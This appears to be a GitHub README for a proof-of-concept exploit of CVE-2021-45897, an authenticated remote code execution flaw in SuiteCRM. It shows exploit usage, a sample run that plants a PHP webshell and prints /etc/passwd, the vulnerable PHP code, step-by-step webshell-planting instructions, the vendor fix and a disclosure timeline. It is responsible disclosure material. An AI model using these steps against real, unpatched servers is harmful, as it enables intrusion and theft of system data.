

# CVE-2021-45897

PoC for [CVE-2021-45897](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45897) aka SCRMBT-#180 - RCE via Email-Templates (Authenticated only) in SuiteCRM <= 8.0.1

This vulnerability was reported to SalesAgility in fixed in SuiteCRM 7.12.3 and SuiteCRM Core 8.0.2. If you are using older versions of SuiteCRM, I highly advise you to update.

## Usage

**Installation**

1. Make sure to have a recent version of `python3` and `pip` installed.
2. Clone the repo: `git clone https://github.com/manuelz120/CVE-2021-45897.git`
3. Install the required libraries `pip3 install -r "requirements.txt"`
4. Enjoy :)

**Available options:**

```
(.venv) ➜  CVE-2021-45897 git:(main) ✗ ./exploit.py --help
Usage: exploit.py [OPTIONS]

Options:
  -h, --host TEXT        Root of SuiteCRM installation. Defaults to
                         http://localhost
  -u, --username TEXT    Username
  -p, --password TEXT    password
  -P, --payload TEXT     Shell command to be executed on target system
  -d, --is_core BOOLEAN  SuiteCRM Core (>= 8.0.0). Defaults to False
  --help                 Show this message and exit.

  https://github.com/manuelz120/CVE-2021-45897
```

**Example usage:**

```
(.venv) ➜  CVE-2021-45897 git:(main) ✗ ./exploit.py -u user -p <redacted> --payload "cat /etc/passwd"
INFO:CVE-2021-45897:Login did work - Planting webshell as Note
INFO:CVE-2021-45897:Note with paylaod located @ 6da23afd-06a0-c25a-21bd-61f8364ae722
INFO:CVE-2021-45897:Successfully planted payload at http://localhost/public/6da23afd-06a0-c25a-21bd-61f8364ae722.php
INFO:CVE-2021-45897:Verifying web shell by executing command: 'cat /etc/passwd'
INFO:CVE-2021-45897:------ Starting command output ------
INFO:CVE-2021-45897:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
INFO:CVE-2021-45897:------  Ending command output  ------
INFO:CVE-2021-45897:Enjoy your shell :)
```

## Writeup

I recently discovered an interesting RCE attack vector in the PHP based [SuiteCRM Software](https://github.com/salesagility/SuiteCRM-Core). The vulnerability allows an authenticated attacker with access to the `EmailTemplates` module to upload malicous PHP files, which can be used to gain remote code execution.

From my point of view, the overall file upload handling in SuiteCRM looks quite secure. Although there is a lot of custom code, developers paid close attention to either remove any file extensions (happening for most file types), or validate the extensions and sanitize the content in case it is an image. There even exists a plugin interface to load third party AV scanners and let them process any uploads.

However, I randomly stumbled upon one interesting little feature hidden in `public/legacy/modules/EmailTemplates/EmailTemplate.php`:

```php
private function repairEntryPointImages()
{
    global $sugar_config;

    // repair the images url at entry points, change to a public direct link for remote email clients..


    $html = from_html($this->body_html);
    $siteUrl = $sugar_config['site_url'];
    $regex = '#]*[\s]+src=[\s]*["\'](' . preg_quote($siteUrl) . '\/index\.php\?entryPoint=download&type=Notes&id=([a-f0-9]{8}\-[a-f0-9]{4}\-[a-f0-9]{4}\-[a-f0-9]{4}\-[a-f0-9]{12})&filename=.+?)["\']#si';

    if (preg_match($regex, $html, $match)) {
        $splits = explode('.', $match[1]);
        $fileExtension = end($splits);
        $this->makePublicImage($match[2], $fileExtension);
        $newSrc = $sugar_config['site_url'] . '/public/' . $match[2] . '.' . $fileExtension;
        $this->body_html = to_html(str_replace($match[1], $newSrc, $html));
        $this->imageLinkReplaced = true;
        $this->repairEntryPointImages();
    }
}

private function makePublicImage($id, $ext = 'jpg')
{
    $toFile = 'public/' . $id . '.' . $ext;
    if (file_exists($toFile)) {
        return;
    }
    $fromFile = 'upload://' . $id;
    if (!file_exists($fromFile)) {
        throw new Exception('file not found');
    }
    if (!file_exists('public')) {
        sugar_mkdir('public', 0777);
    }
    $fdata = file_get_contents($fromFile);
    if (!file_put_contents($toFile, $fdata)) {
        throw new Exception('file write error');
    }
}
```

SuiteCRM allows users to create email templates. The templates can also contain attachments, which are stored in a separate module (the `Notes` module). Users can attach arbitrary files to email templates. The content of the file is not sanitized in any way. However, it is stored without an extension, so even if it contains potentially malicious PHP code, it wouldn't be executed by the webserver. Authenticated users are also able to download these attachments using a link following the format `/index.php?entryPoint=download&type=Notes&id=<note-id>`.

The `repairEntryPointImages` function is triggered whenever a email template is saved or accessed. If we take a look at the code, we can see that it parses the markup (`body_html`) of the email template and looks for HTML `img` tags with a special `src` attribute. The regular expression basically resembles the format of the internal attachment download link. However, these links only work for users which are authenticated in SuiteCRM, which is most likely not the case for the recipient of the email. Therefore, SuiteCRM automatically creates a copy of the attachment in the `public` folder of the webserver and replaces the internal download link with the public version. To make sure the Email-Client properly displays the images, it also adds a file extension. However, the extension of the target file in the public folder is directly taken from the `filename` query parameter of the image `src` and not validated (note that the `filename` isn't triggering any other logic and can be freely chosen).

Now we have everything together to craft an exploit that uploads a PHP webshell in the `public` folder:

1. Create a new Email-Attachment / Record in the `Notes` module by uploading a PHP webshell. Remember the id of the `Note`
2. SuiteCRM will store the webshell file without extension in the upload folder
3. Verify that you can download the PHP file by accessing `/index.php?entryPoint=download&type=Notes&id=<note_id>`
4. Create a new email template and add a image tag that matches the regex in `repairEntryPointImages`, but uses a `.php` for the `filename` query parameter (e.g. `/index.php?entryPoint=download&type=Notes&id=<note_id>&filename=pwned.php" />`).
5. Save / reload the email template - SuiteCRM will execute the `repairEntryPointImages` function and copy our webshell with a `.php` extension to the `public` folder
6. Enjoy your shell at `http://<<host>>/public/<<note_id>>.php`

## Implemented fix

Shortly after my report, new SuiteCRM versions (`7.12.3` and `8.0.2`) were released, containing the following fix:



https://github.com/salesagility/SuiteCRM-Core/commit/5d699396379d7af8697ec985ebc425836202ed43#diff-fb3b09c19812fa070cc86927149c52ef4bffc3057a82249a12f4a82bc0dd576dR922-R926

This ensure that only valid image file extensions are used in `repairEntryPointImages` and prevents the creation of files with non-whitelisted extensions like `.php`.

## Timeline

- 21/12/2021: Vulnerability discovered and reported to SuiteCRM
- 22/12/2021: Vulnerability confirmed by vendor (SalesAgility)
- 27/01/2022: Release of fixed versions ([SuiteCRM 7.12.3](https://docs.suitecrm.com/admin/releases/7.12.x/) and [SuiteCRM Core 8.0.2](https://docs.suitecrm.com/8.x/admin/releases/8.0/))
